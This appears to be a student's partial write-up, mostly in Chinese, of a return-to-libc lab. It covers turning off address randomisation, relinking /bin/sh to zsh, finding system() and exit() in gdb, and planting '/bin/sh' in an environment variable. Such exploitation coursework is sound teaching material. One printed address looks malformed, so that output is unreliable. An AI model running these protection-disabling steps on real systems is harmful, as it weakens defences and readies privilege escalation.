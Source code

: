## Task 1: Finding out the Addresses of libc Functions

关闭地址随机化

```shell
sudo sysctl -w kernel.randomize_va_space=0
```

修改链接

```shell
sudo ln -sf /bin/zsh /bin/sh
```

使用 gdb调试

```shell
$ touch badfile
$ make
$ gdb -q retlib
gdb-peda$ break main
gdb-peda$ run
gdb-peda$ p system
gdb-peda$ p exit
gdb-peda$ quit
```

得到结果

```shell
gdb-peda$ p system
$1 = {<text variable, no debug info>} 0xf4e12420 <system>
gdb-peda$ p exit
$2 = {<text variable, no debug info>} 0xf4e4f80 <exit>
```

## Task 2: Putting the shell string in the memory

新建 `MYSHELL` 环境变量

```shell
$ export MYSHELL=/bin/sh
$ env | grep MYSHELL
MYSHELL=/bin/sh
```

编写程序 `prtenv.c`

```c
#include<stdlib.h>
#include<stdio.h>

void main(){
    char* shell = getenv("MYSHELL");
    if (shell)
        printf("%x\n", (unsigned int)shell);
}
```
